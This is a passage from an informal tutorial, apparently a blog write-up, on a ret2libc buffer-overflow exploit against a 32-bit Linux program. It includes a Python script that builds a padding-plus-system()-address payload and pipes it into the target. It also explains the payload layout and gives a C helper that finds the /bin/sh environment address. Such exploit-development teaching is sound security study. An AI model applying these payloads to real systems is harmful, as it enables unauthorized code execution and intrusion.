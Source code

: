 ```  
    def main():
        system_addr = struct.pack("I", 0xb7ecffb0)
        padding = 80
        payload = "A" * padding + system_addr + "LMAO"
        MyPayload = open("payload.txt", "w")
        MyPayload.write(payload)
        MyPayload.close()
        os.system("cat payload.txt | CompiledCFileName")
    
    main()
```  
We made two changes: 1st was to add the system address on script, and the second one may seem strange, but i'll explain.  
By default, our payload must follow a build structure:
**[QuantBytesToEIP] | [system_addr] | [4 random bytes] | [Address of /bin/sh]**. This is cuz of [Prologue Function](https://en.wikipedia.org/wiki/Function_prologue), basically a preparation that tells the stack frame what's function to use. The first argument to the system function is sent four bytes after the initial call to the function, cuz we can't give a CALL in a function, but we can simulate something like that. After we overwrite the return address with the address of the system function, we are "simulating" a **CALL** in it, so the architecture "requests" a return address to return that function. For the exploration in question, the use of a 4-bytes junk is enough for us, cuz theoretically we will not have to return to anything after executing the shellcode. At first, we needn't care to go into every details, just take it as truth and move on!  
## /bin/sh, where r u?  
  
To find the bin/sh address, there are some ways. searching for examples on the web, you can find somethings like:   
*   `x/s *(environ++)`
*   *filters through the own shell*
*   ...  
Searching for the environ is kinda interesting. by default, the environ var has a memory address, and at this address, there is another memory address, which has the environment variables. ++ represents a counter, ranging from 1 to the limit of environment variables. In this case, it would be necessary to add +1 and +1 until we find the /bin/sh address. However, this method is somewhat hard, cuz the environment variable changes its address from within the GDB out. So, what to do? 
so, let's write another C code:  
  
```  
    #include <stdio.h>
    #include <stdlib.h>
    
    int main(int argc, char *argv[])
    {
        char *adress= getenv("SHELL");
        printf("sh is at %p\n",adress);
    }
```  
  
`gcc -o OutputName ProgramName`  
`chmod +x OutputName`  
`./OutputName`  
*out output:*  
`> ./sh_cmon`  
`sh is at 0xbffff9de`  
now we have everything we need to set up our script. Let's, then, modify it for the last time!  
  